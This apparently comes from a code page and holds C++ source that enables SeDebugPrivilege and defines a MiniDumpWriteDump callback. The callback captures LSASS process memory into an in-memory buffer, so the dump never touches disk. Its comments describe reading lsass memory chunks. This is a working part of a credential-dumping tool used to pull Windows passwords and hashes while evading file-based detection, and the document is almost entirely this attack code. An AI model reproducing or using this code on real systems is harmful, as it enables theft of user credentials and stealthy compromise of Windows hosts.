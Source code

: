 ``` cpp
void GetDebugPrivilege()
{
	BOOL fOk = FALSE;
	HANDLE hToken;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp;
		tp.PrivilegeCount = 1;
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
		tp.Privileges[0].Attributes = true ? SE_PRIVILEGE_ENABLED : 0;
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
		fOk = (GetLastError() == ERROR_SUCCESS);
		CloseHandle(hToken);
	}
}

BOOL CALLBACK minidumpCallback(
	__in     PVOID callbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
{
	LPVOID destination = 0, source = 0;
	DWORD bufferSize = 0;

	switch (callbackInput->CallbackType)
	{
	case IoStartCallback:
		callbackOutput->Status = S_FALSE;
		break;

		// Gets called for each lsass process memory read operation
	case IoWriteAllCallback:
		callbackOutput->Status = S_OK;

		// A chunk of minidump data that's been jus read from lsass. 
		// This is the data that would eventually end up in the .dmp file on the disk, but we now have access to it in memory, so we can do whatever we want with it.
		// We will simply save it to dumpBuffer.
		source = callbackInput->Io.Buffer;

		// Calculate location of where we want to store this part of the dump.
		// Destination is start of our dumpBuffer + the offset of the minidump data
		destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)callbackInput->Io.Offset);

		// Size of the chunk of minidump that's just been read.
		bufferSize = callbackInput->Io.BufferBytes;
		bytesRead += bufferSize;

		RtlCopyMemory(destination, source, bufferSize);

		break;

	case IoFinishCallback:
		callbackOutput->Status = S_OK;
		break;

	default:
		return true;
	}
	return TRUE;
}

```